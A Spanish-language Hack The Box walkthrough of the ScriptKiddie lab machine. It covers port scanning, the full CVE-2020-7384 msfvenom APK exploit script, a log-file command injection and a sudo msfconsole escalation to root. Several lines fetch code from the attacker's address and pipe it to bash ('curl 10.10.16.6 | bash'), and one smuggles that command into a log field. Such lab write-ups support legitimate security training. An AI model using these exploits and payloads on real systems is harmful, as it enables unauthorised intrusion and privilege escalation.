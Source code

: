 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges."
date: 2024-02-16
classes: wide
header:
  teaser: /assets/images/htb-script/script.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags: 
  - Msfvenom
  - Script
  - Pivoting
---
```


![](/assets/images/htb-script/script.png)

ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. 

## Portscan

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.226 -oG allports                                     
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:48 CEST
Initiating Ping Scan at 11:48
Scanning 10.10.10.226 [4 ports]
Completed Ping Scan at 11:48, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 11:48, 13.04s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2024-04-18 11:48:21 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
           Raw packets sent: 68669 (3.021MB) | Rcvd: 67851 (2.714MB)

```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p22,5000 -Pn 10.10.10.226 -oN targeted                                                                                                                                                                 130 ⨯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:54 CEST
Nmap scan report for 10.10.10.226
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds

```
## Analisis Web

Vemos que nos lleva a una pagina:
![](/assets/images/htb-script/pag1.png)

Vemos que la segunda introduccion de datos juega con msfvenom,  asi que vamos a buscar con searchsploit y encontramos un exploit. Nos lo llevamos a nuestro equipo y vammos a ver que hace:
```
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl 10.10.16.6 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```
Hemos sustituido el comando para ejecutarnos una bash en nuestra ip, ahora le damos privilegios para poder meterlo en la página(sudo chown kali:kali -R /tmp/tmptgdoeu2s/)
Nos montamos un servidor en python y en escucha por la 443 y enviamos el exploit.

## Escalada de privilegios

Ahora ya hemos accedido al sistema.
Podemos encontrar la flag de usuario.
Vemos que hay un script hackers que no podemos leer pero si usar, y en el directorio logs encontramos el script de la app. La cual tambien usa scanloosers.sh en el directorio de otro usuario llamado pwn.
```
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
Aqui vemos que coje del script de hackers a partir del tercer input, lo que nos puede llevar a una posible inyeccion

```
echo "a b 10.10.16.6; curl 10.10.16.6 | bash #" > hackers
```
Si introducimos esto mientras seguimos en escucha en otra terminal por el puerto 443 y con un servidor en python3
Ahora hemos accedido al usuario pwn, vamos a ver que privilegios tiene este usuario:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```
Podemos ejecutar el metasploit con root,  y dentro de metasploit podemos usar una consola en la que ejecutar comandos y como lo hemos iniciado con root podremos usar comandos de root, y por tanto encontrar la flag de root:

```
msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("whoami")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
system("bash")
=> true
>> system("bash")
whoami
root
cd /root
ls
root.txt
snap
cat root.txt
34e315f940c71771856d6c7d95c36340

```
Y ya lo tendriamos
